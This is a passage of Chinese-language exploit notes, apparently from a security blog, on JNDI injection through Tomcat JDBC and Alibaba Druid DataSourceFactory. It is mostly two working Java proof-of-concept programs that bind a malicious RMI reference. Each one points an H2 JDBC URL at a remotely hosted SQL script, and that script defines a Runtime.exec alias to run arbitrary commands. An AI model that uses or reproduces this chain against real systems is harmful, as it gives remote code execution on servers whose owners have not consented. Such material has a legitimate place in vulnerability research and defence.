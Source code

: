 ##### org.apache.tomcat.jdbc.pool.DataSourceFactory

如果dbcp驱动不能使用，可以使用`tomcat-jdbc`包

其他的和上面的dbcp一致

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "org.apache.tomcat.jdbc.pool.DataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```

##### com.alibaba.druid.pool.DruidDataSourceFactory

同样，在druid中也存在数据库连接操作

只是在判断的位置，需要init为true，才能进行利用

```java
public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
    Registry registry = LocateRegistry.createRegistry(1099);
    String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'";
    ResourceRef ref = new ResourceRef("javax.sql.DataSource", null, "", "",
            true, "com.alibaba.druid.pool.DruidDataSourceFactory", null);
    ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
    ref.add(new StringRefAddr("url", JDBC_URL));
    ref.add(new StringRefAddr("username", "root"));
    ref.add(new StringRefAddr("password", "root"));
    ref.add(new StringRefAddr("initialSize", "1"));
    ref.add(new StringRefAddr("init", "true"));
    ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
    registry.bind("test", referenceWraper);
}

//poc.sql
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';CALL EXEC ('calc')
```
